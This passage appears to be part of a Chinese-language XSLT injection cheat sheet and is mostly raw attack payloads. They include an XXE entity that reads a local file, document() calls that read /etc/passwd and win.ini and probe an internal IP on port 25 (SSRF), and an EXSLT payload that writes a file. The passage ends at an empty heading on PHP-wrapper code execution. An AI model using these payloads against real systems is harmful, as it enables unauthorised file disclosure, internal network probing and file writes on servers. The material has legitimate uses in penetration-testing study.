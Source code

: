 ```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE dtd_sample[<!ENTITY ext_file SYSTEM "C:\secretfruit.txt">]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
    水果 &ext_file;:
    <!-- 遍历每个水果 -->
    <xsl:for-each select="fruit">
      <!-- 打印名称: 描述 -->
      - <xsl:value-of select="name"/>: <xsl:value-of select="description"/>
    </xsl:for-each>
  </xsl:template>
</xsl:stylesheet>
```

### 使用 document 读取文件和 SSRF

```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
    <xsl:copy-of select="document('http://172.16.132.1:25')"/>
    <xsl:copy-of select="document('/etc/passwd')"/>
    <xsl:copy-of select="document('file:///c:/winnt/win.ini')"/>
    水果:
    <!-- 遍历每个水果 -->
    <xsl:for-each select="fruit">
      <!-- 打印名称: 描述 -->
      - <xsl:value-of select="name"/>: <xsl:value-of select="description"/>
    </xsl:for-each>
  </xsl:template>
</xsl:stylesheet>
```

### 使用 EXSLT 扩展写入文件

EXSLT，即可扩展样式表语言转换，是 XSLT（可扩展样式表语言转换）语言的一组扩展。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:exploit="http://exslt.org/common" 
  extension-element-prefixes="exploit"
  version="1.0">
  <xsl:template match="/">
    <exploit:document href="evil.txt" method="text">
      Hello World!
    </exploit:document>
  </xsl:template>
</xsl:stylesheet>
```

### 使用 PHP 包装器进行远程代码执行
